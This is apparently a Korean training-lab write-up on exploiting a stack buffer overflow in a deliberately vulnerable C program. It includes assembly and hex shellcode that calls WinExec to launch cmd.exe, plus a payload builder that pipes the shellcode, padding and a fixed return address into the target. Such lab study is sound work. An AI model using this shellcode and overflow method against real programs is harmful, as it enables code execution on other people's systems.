 # Local Variable 4

### Question

- cmd.exe가 실행되도록 입력 페이로드 구현

```
#include <stdio.h>
void printit() {
	printf("Nothing special\\n");
}int main()
{
	int crap;
	void(*call)() = printit;
	char buf[500];
	fgets(buf, 1000, stdin);
	call();
	dumpcode((unsigned char *)buf, 1000);
}

```



<br>



### Analysis

![image-26.png](../images/image-26.png)

![image-2.png](../images/image-2.png)

- test() : Shellcode disassembly

- Shellcode : `\\x55\\x8b\\xec\\x53\\x57\\x33\\xdb\\x68\\xf0\\xdc\\x31\\x76\\x8b\\xfc\\x83\\xec\\x08\\xc7\\x45\\xec\\x63\\x6d\\x64\\x2e\\xc7\\x45\\xf0\\x65\\x78\\x65\\x00\\x8b\\xdc\\x6a\\x01\\x53\\xff\\x17\\x5f\\x5b\\x8b\\xe5\\x5d`



<br>



### Result

```
// shellcode.c

#include <windows.h>
#include <stdio.h>

int GetWinExec()
{
	HMODULE hModule = GetModuleHandleA("Kernel32.dll");
	int addr = (int)GetProcAddress(hModule, "WinExec");

	printf("WinExec address : 0x%x\n", addr);	// 0x7631dcf0

	return addr;
}

void test(int addr)
{
	__asm {
		// 프롤로그
		push	ebp
		mov		ebp, esp

		push	ebx
		push	edi

		// ebx 초기화
		xor		ebx, ebx

		// WinExec() 함수 주소
		push	0x7631dcf0
		mov		edi, esp

		sub		esp, 0x8

		mov DWORD PTR[ebp - 0x14], 0x2e646d63	// cmd.
		mov DWORD PTR[ebp - 0x10], 0x657865		// exe

		mov		ebx, esp

		// WinExec("cmd.exe", 1);
		push	0x1
		push	ebx
		call	DWORD PTR[edi]

		pop		edi
		pop		ebx

		// 에필로그
		mov		esp, ebp
		pop		ebp
	}
}

int main(int argc, char* argv[])
{
	int addr = GetWinExec();
	
	test(addr);
	test(0x7631dcf0);
	
	unsigned char shellcode[] = "\x55\x8b\xec\x53\x57\x33\xdb\x68\xf0\xdc\x31\x76\x8b\xfc\x83\xec\x08\xc7\x45\xec\x63\x6d\x64\x2e\xc7\x45\xf0\x65\x78\x65\x00\x8b\xdc\x6a\x01\x53\xff\x17\x5f\x5b\x8b\xe5\x5d";
	void(*shell)() = (void(*)())shellcode;

	shell();

	return 0;
}
```

```
// payload.c

#include <stdlib.h>
#include <stdio.h>

int main(int argc, char *argv[])
{
	char cmd[1024] = "python2 -c \"print ";
	char *shellcode = "\x55\x8b\xec\x53\x57\x33\xdb\x68\xf0\xdc\x31\x76\x8b\xfc\x83\xec\x08\xc7\x45\xec\x63\x6d\x64\x2e\xc7\x45\xf0\x65\x78\x65\x00\x8b\xdc\x6a\x01\x53\xff\x17\x5f\x5b\x8b\xe5\x5d";
	char *fname = ".\\local_var_4.exe";

	strcat(cmd, "\'");
	strcat(cmd, shellcode);
	strcat(cmd, "\' + \'A\'*465 + \'\\x34\\xfd\\x19\\x00\'\"");
	strcat(cmd, " | ");
	strcat(cmd, fname);

	//printf("%s\n", cmd);
	system(cmd);

	return 0;
}
```

![image-3.png](../images/image-3.png)

![image-4.png](../images/image-4.png)



<br>



### Reference

- [https://ccurity.tistory.com/275](https://ccurity.tistory.com/275)
